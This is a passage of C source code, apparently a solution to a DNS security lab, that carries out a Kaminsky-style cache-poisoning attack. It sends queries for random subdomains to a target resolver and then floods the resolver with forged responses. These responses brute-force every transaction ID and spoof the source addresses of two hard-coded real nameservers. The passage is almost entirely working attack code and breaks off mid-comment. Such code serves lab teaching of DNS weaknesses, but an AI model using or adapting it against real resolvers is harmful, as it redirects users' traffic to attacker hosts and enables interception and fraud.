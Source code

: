 ```c
  while (1) {
    // Generate a random name with length 5
    char name[5];
    for (int k=0; k<5; k++)  name[k] = a[rand() % 26];

    /* Step 1. Send a DNS request to the targeted local DNS server.
               This will trigger the DNS server to send out DNS queries */

    // Modify the name in the question field (offset=41)
    memcpy(ip_req+41, name , 5);
    send_dns_request(ip_req, n_req);

    /* Step 2. Send many spoofed responses to the targeted local DNS server,
               each one with a different transaction ID. */
    
    // Modify the name in the question field (offset=41)
    memcpy(ip_resp+41, name, 5);
    // Modify the name in the answer field (offset=64)
    memcpy(ip_resp+64, name , 5);

    send_dns_response(ip_resp, n_resp);
    
  }
}

/* Use for sending DNS request.
 * Add arguments to the function definition if needed.
 * */
void send_dns_request(unsigned char *packet, int pkt_size)
{
  printf("Sending Spoofed Query!\n");
  send_raw_packet(packet, pkt_size);
}


/* Use for sending forged DNS response.
 * Add arguments to the function definition if needed.
 * */
void send_dns_response(unsigned char *packet, int pkt_size)
{
  char ns[15] = "199.43.133.53";
  char ns2[15] = "199.43.135.53";

  for (unsigned short id=0;id<65535;id++){
    // Modify the transaction ID field (offset=28)
    unsigned short id_net_order = htons(id);
    memcpy(packet+28, &id_net_order, 2);

    // Copy IP address (offset=12)
    int ip_address = (int) inet_addr(ns);
    memcpy(packet+12, (void *) &ip_address, 4);
    send_raw_packet(packet, pkt_size);

    // Copy IP address (offset=12)
    int ip_address2 = (int) inet_addr(ns2);
    memcpy(packet+12, (void *) &ip_address2, 4);
    send_raw_packet(packet, pkt_size);
  }
}


/* Send the raw packet out 
 *    buffer: to contain the entire IP packet, with everything filled out.
```
